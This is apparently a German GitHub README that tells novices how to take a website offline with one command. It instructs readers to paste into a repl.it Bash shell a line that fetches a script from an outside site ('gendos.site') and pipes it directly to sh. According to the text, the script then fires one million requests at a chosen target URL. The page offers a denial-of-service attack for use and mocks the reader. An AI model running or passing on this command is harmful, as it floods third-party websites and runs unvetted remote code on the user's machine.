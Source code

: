 # Hoppsgenommen asa7be


Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite in einem command hopps nimmt?

Dann bist du hier genau richtig !

Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de%20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.

Proudly presented by Hoppsgenommen.de:

![Hoppsgenommen du lappen](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/g102.png)
